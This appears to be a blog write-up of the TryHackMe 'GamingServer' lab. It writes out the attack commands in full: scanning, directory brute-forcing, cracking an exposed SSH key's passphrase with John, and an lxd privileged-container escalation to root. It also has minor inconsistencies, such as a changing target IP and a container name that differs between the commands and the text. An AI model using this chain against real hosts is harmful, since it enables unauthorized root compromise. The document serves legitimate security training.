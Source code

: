 ```yaml
---
layout: post
title: "GamingServer"
date: 2022-10-08
categories: [Tryhackme, Easy-THM]
tags: [private-key, ssh2john, password-cracking, lxd]
image: ../../assets/img/posts/gamingserver.png 

---
```


## Description

An Easy Boot2Root box for beginners

|**Room**|[GamingServer](https://tryhackme.com/room/gamingserver)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[SuitGuy](https://tryhackme.com/p/SuitGuy)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a 10.10.144.153
```

![image](https://user-images.githubusercontent.com/67465230/186084579-4a9c8175-5e02-474a-be12-49dabf93c007.png)

This reveals 2 open ports. Lets scan them using nmap,

```bash
nmap -sC -sV -p22,80 10.10.144.153 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/186084629-457a49dd-529c-4a34-b638-d6d7e9ebca9a.png)

Looks like port 22 is running ssh service and port 80 is running a webserver. Starting enumeration of port 80.

Visit http://10.10.144.153,

![image](https://user-images.githubusercontent.com/67465230/186084672-75f75382-069a-428f-9cbf-3839cec30079.png)

and we get stumble on a primitively build webpage, which has nothing interesting in it except it's source code page.

Scrolling down, there is a comment for John(username enumeration),

![image](https://user-images.githubusercontent.com/67465230/186084721-7036d186-cc9c-43ce-b135-ebc8e8fd8b9b.png)

Now, we need to find hidden directories,

```bash
dirsearch -u http://10.10.144.153 -w /usr/share/seclists/Discovery/Web-Content/common.txt -i 200,301 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/186084760-bc9edc9f-25b4-44de-af74-ae87d0098757.png)

we got 2 hidden directories.

Visit http://10.10.144.153/secret,

![image](https://user-images.githubusercontent.com/67465230/186084800-cad2b60a-5e38-469e-bf37-b9410fbc95a8.png)

we got a file named **secretKey**. Maybe there is something useful for us. Let's find out.

Opening this file and I saw the private id_rsa key,

![image](https://user-images.githubusercontent.com/67465230/186084857-6b884158-96c1-4125-a0d8-1d927deda901.png)

Copy this key into secretkey file and we will use ssh2john script to convert this key into crackable hash, 

```bash
/usr/share/john/ssh2john.py secretkey > crackme
```

Now using JTR, we can crack this hash and obtain the password,

```bash
john crackme --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/67465230/186084905-8e49dbc0-e4f5-41d0-91ce-4d47867c92b6.png)

we got the password to login via ssh.

Now, changing the mode of the secretkey to give it suitable permissions, 

```bash
chmod 600 secretkey
```

Now we need to hop into machine as john user using secretkey,

```bash
ssh -i secretkey john@10.10.6.96
```

![image](https://user-images.githubusercontent.com/67465230/186084950-948e24eb-b6c6-4248-b094-28a217283448.png)

and we got in.

Enumerating directory and we got user flag,

![image](https://user-images.githubusercontent.com/67465230/186084993-7dd7907a-224d-4f0d-a204-66c59e277309.png)

Now, Issuing `id`command tells us that we are john user and we are in **lxd** group,

![image](https://user-images.githubusercontent.com/67465230/186085033-f744f349-312b-4096-9e1e-99edb2b0e43e.png)

By viewing that user john is in lxd group means we can abuse the lxd functionality to become system user. There is a great article on [Lxd Privilege Escalation](https://www.hackingarticles.in/lxd-privilege-escalation/)

Now, we have to download the alpine builder from github and follow some commands,

```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

This will build up the package for us.

Now that our package is built, we need to start a python server to host this package on remote machine, `python3 -m http.server`

Navigating to /tmp directory and downloading this file using wget command,

![image](https://user-images.githubusercontent.com/67465230/186085073-4ee731b4-d751-41c3-a7d0-b8403b3412d6.png)

At first, we need to import the image into lxc image list as myimage,

```bash
lxc image import ./alpine-v3.14-x86_64-20210810_1625.tar.gz --alias myimage
```

![image](https://user-images.githubusercontent.com/67465230/186085119-73358c85-02fd-4669-b023-9f94ccf212e9.png)

Now, listing all images again,

```bash
lxc image list
```

![image](https://user-images.githubusercontent.com/67465230/186085146-6d1ab25e-fb6f-47fb-82d3-b12a0e3d52d0.png)

our image is now successfully added.

Now, to exploit the lxd, we need to execute command below,

```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

>In the above commands we created a container named gaming having all the privileges and mounted the /root directory to /mnt/root then executed /bin/sh

and when we issue `id` command, it will show us that we are **root**.

Navigating to directory we mounted,

![image](https://user-images.githubusercontent.com/67465230/186085187-f0c3fdcd-fd28-4af9-b6a2-a79195268c6f.png)

we can see the system path with many directories (from root user perspective.).

Navigate to /mnt/root/root will let us have our root flag.

